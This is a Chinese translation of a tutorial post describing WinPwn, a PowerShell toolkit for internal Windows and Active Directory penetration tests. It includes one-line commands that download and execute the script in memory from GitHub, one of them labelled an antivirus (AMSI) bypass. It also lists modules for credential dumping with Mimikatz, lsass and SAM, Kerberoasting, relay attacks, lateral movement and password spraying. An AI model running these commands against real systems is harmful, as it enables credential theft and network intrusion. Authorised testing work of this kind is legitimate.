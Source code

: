 # WinPwn:内部 Windows 渗透测试/ AD 安全的自动化

> 原文：<https://kalilinuxtutorials.com/winpwn-automation-internal-windows-penetrationtest-ad-security/>

[![WinPwn : Automation for Internal Windows Penetrationtest / AD-Security](img/cee9da978eb89f971da41a285f5ac0c4.png "WinPwn : Automation for Internal Windows Penetrationtest / AD-Security")](https://1.bp.blogspot.com/-yvsdQiClmNE/XdYXxJ_17II/AAAAAAAADg8/kDYFbEShH1IRpvKqFUmEJTmvFynvrSgIgCLcBGAsYHQ/s1600/WinPwn%2B%25281%2529.png)

**WinPwn** 是内部 Windows 渗透测试/ AD-Security 的自动化。在过去的许多内部渗透测试中，由于缺少代理支持，我经常遇到现有 Powershell Recon / Exploitation 脚本的问题。

我经常一个接一个地运行相同的脚本来获取关于当前系统和/或域的信息。为了自动执行尽可能多的内部渗透测试流程(侦察和利用)以及代理原因

我用自动代理识别和集成编写了自己的脚本。该脚本大多基于其他知名的大型攻击性安全 Powershell 项目。它们通过 IEX 下载字符串加载到内存中。

欢迎任何建议、反馈、拉动请求和评论！

只需导入带有**或`iex (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/master/WinPwn.ps1')`或**的模块

对于 AMSI 旁路，使用以下一行:`**iex (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/master/ObfusWinPwn.ps1')**`

如果你发现自己被困在一个没有互联网接入的 windows 系统上——完全没有问题，只需使用 Offline_Winpwn.ps1，所有的脚本和可执行文件都包括在内。

**也可阅读-[Jaeles:自动化 Web 应用测试的瑞士军刀](https://kalilinuxtutorials.com/jaeles-the-swiss-army-knife-web-application-testing/)**

导入后可用的功能:

*   `**WinPwn**` - >菜单选择攻击:
*   `**Inveigh**` - >在新的控制台窗口中执行 Inveigh，集成了会话管理(Invoke-TheHash)的 SMB-Relay 攻击
*   `**sessionGopher**` - >执行 Sessiongopher 向您询问参数
*   `**kittielocal**` - >
    *   模糊调用-Mimikatz 版本
    *   记忆中的安全卡茨
    *   使用 rundll32 技术转储 lsass
    *   下载并运行千层面
    *   转储浏览器凭据
    *   从记忆中提取有趣的信息
    *   过滤 Wifi 凭证
    *   转储山姆-文件 NTLM 哈希
*   `**localreconmodules**` - >
    *   收集已安装的软件、易受攻击的软件、共享、网络信息、组、权限等等
    *   检查典型的漏洞，如 SMB 签名、LLMNR 中毒、MITM6、WSUS
    *   检查 Powershell 事件日志中的凭据或其他敏感信息
    *   在注册表和文件系统中搜索密码
    *   查找敏感文件(配置文件、RDP 文件、keepass 数据库)
    *   搜索。本地系统上的. NET 二进制文件
    *   可选项:Get-computer details(Powersploit)和 PSRecon
*   `**domainreconmodules**` - >
    *   收集各种领域信息进行人工审查
    *   在描述字段中查找 AD 密码
    *   搜索潜在敏感域共享文件
    *   ACLAnalysis
    *   列举不受约束的委托系统/用户
    *   用于域系统的 MS17-10 扫描仪
    *   SQL Server 发现和审计功能(默认凭据、数据库中的密码等)
    *   对域控制器进行 MS-RPRN 检查
    *   使用 group 2 的组策略审计
    *   使用 ADRecon 在 CSV 文件(或 XLS，如果安装了 excel)中生成广告报告。
*   `**Privescmodules**` - >在内存中执行不同的特权脚本(加电 Allchecks，夏洛克，GPPPasswords)
*   `**latmov**` - >在域中搜索具有管理员访问权限的系统进行横向移动。Mass-Mimikatz 可在找到系统后使用
*   `**shareenumeration**` - >调用-文件查找器和调用-共享查找器(Powerview / Powersploit)
*   `**groupsearch**`->Get-domainpouserlocalgroupmapping-通过组策略映射(Powerview / Powersploit)查找您拥有管理员访问权限或 RDP 访问权限的系统
*   `**Kerberoasting**` - >在一个新窗口中执行 Invoke-Kerberos ast 并存储哈希以备以后破解
*   `**powerSQL**` - > SQL Server 发现，检查当前用户的访问，审计默认凭据+ UNCPath 注入攻击
*   `**Sharphound**` - >下载 Sharphound 并为 Bloodhound DB 收集信息
*   `**adidnswildcard**` - >创建活动目录集成的 DNS 通配符记录
*   `**MS17-10**` - >扫描域中活动的 windows 服务器或所有系统中的 MS17-10(永恒之蓝)漏洞
*   `**Sharpcradle**` - >将 C#文件从远程 web 服务器加载到 RAM
*   `**DomainPassSpray**` - >域名密码攻击，所有域用户一个密码

**免责声明**

未经双方事先同意，使用 WinPwn 攻击目标是非法的。最终用户有责任遵守所有适用的地方、州和联邦法律。开发人员不承担任何责任，也不对本程序造成的任何误用或损坏负责。仅用于教育目的。

[**Download**](https://github.com/S3cur3Th1sSh1t/WinPwn)